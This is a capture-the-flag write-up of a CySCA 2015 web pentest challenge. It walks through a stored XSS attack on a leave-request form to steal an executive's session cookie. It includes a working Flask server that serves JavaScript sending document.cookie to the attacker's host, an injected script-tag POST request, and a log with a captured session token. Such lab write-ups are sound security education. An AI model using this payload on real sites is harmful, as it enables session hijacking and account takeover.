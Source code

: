 ```yaml
---
title: CySCA 2015 - Web Application Pentest 4 - Business Excellence
author: nickw
layout: post

categories:
  - Blog
  - Security
---
```


We need to gain access to the CVO (Angelina's) account. In order to do this, we
most likely will need to steal a cookie. We take a look in the leave details 
section and put in a leave request to see if it's XSS protected. Additionally,
we notice that the session cookie on this website  *is not* `HTTPOnly`. Time
to steal.

The browser will prevent javascript accessing `HTTPOnly` cookies, hence, if it 
was HTTP Only, we would be looking in the wrong place. 

We do the naive thing and just put `<h1>Hello</h1>` in. However, the ticker spits 
out `WARNING: XSS detected! You have been reported.`. Additionally, it appears 
the XSS is stripped client side too. 

Lets take this to a [PostMan](https://chrome.google.com/webstore/detail/postman/fhbjgbiflinjbdggehcddcbncdddomop?hl=en) session rather than mucking around with 
request stripping. 

We also fire up a little flask web-app to steal the user's session. 

{% highlight python %}
from flask import Flask
import sys
app = Flask(__name__)

if len(sys.argv) < 3:
    print("Usage: {} <Listen IP Address> <Listen Port>".format(sys.argv[0]))
    print("Listen IP Must be a reachable machine IP from the box")
    exit(1)

host = sys.argv[1]; port = int(sys.argv[2])

@app.route('/')
def hello_world():
    return 'Hello World! <script src="http://{}:{}/r.js"></script>'.format(host,port)

@app.route('/r.js')
def steal():
    return """
    var url = 'http://{}:{}/url?'+ document.cookie;
    document.write('<img src="' + url +'" />');
    """.format(host, port)

if __name__ == '__main__':
    app.run(debug=True, port=port, host='0.0.0.0')

{% endhighlight %}

We send off the following request:

{% highlight text %}
POST /service/leave HTTP/1.1
Host: www.ecwi.cysca
Cache-Control: no-cache

start: 11/19/2015
end: 12/19/2015
reason: <Script src="http://x.x.x.x/r.js"></Script>
{% endhighlight %}

(Replacing x.x.x.x my your machine's accessible IP address)

We notice that the ticker says "WARNING: XSS detected! You have been reported." 
however, we still wait. Within 2 minutes, our javascript gets loaded, and we've
stolen the user's session cookie:

```
192.168.8.6 - - [19/Nov/2015 17:58:01] "GET /r.js HTTP/1.1" 200 -
192.168.8.6 - - [19/Nov/2015 17:58:01] "GET /url?session=eyJfZnJlc2giOnRydWUsIl9pZCI6eyIgYiI6IlltSmtNemxpT1RCbE56TTJNakkwTkRVMU0yTXpPVFZpTkRoa01tWm1Zek09In0sInVzZXJfaWQiOiI1In0.CS8EeQ.fNfERZulfSlUGpMSNEnsN2TBnzQ HTTP/1.1" 404 -
```

We replace our session cookie with this one, and now we've logged in, reavealing
the flag in the ticker:

> You're an Executive! - FLAG{3a000000000000000000000000000000}


